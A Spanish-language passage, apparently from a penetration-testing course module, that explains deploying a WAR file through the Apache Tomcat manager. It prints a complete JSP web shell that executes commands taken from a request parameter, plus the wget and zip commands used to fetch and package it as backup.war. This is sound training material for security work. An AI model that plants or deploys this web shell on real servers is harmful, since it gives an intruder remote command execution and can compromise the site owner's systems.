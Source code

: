 La aplicación web del manager nos permite desplegar instantáneamente nuevas aplicaciones cargando archivos WAR. Un archivo WAR puede crearse usando la utilidad zip. Un web shell JSP como [este](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) puede descargarse y colocarse dentro del archivo.

```r
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

```r
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 

  adding: cmd.jsp (deflated 81%)
```

Haz clic en `Browse` para seleccionar el archivo .war y luego haz clic en `Deploy`.

![image](https://academy.hackthebox.com/storage/modules/113/mgr_deploy.png)

Este archivo se carga en la GUI del manager, después de lo cual la aplicación `/backup` se añadirá a la tabla.
